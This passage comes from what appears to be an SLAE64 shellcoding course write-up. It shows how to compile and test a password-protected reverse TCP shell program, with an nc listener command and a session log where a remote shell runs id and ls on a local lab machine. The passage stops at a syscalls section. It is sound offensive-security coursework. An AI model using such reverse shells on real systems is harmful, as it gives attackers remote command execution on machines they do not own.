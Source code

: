 ```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$ gcc reverse-c.c -o reverse-c
```

First, create a listener with `nc` on port `4444` and wait for connections:

```shell
geobour98@slae64-dev:~$ nc -lvnp 4444
```

Then, in another terminal execute `reverse-c`.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$ ./reverse-c

```

In the first terminal verify the incoming connection, provide the passcode: `Password` and execute the commands `id` and `ls`.


```shell
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 54242)
Password
id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
ls
compile.sh
reverse-c
reverse-c.c
reverse-shellcode-course
reverse-shellcode-course.nasm
reverse-shellcode-course.o
reverse.nasm
exit
geobour98@slae64-dev:~$
```

Now we can check that with a wrong passcode the program is terminated. We execute again `reverse-c` and listen with `nc`. The program is indeed terminated.

```shell
geobour98@slae64-dev:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 54244)
WrongPassword
geobour98@slae64-dev:~$
```

### Syscalls

In order to implement the syscalls in Assembly, we have to find their defined numbers. These are located at the header file: `/usr/include/x86_64-linux-gnu/asm/unistd_64.h`.

The syscalls and their definitions can be found in the following table:
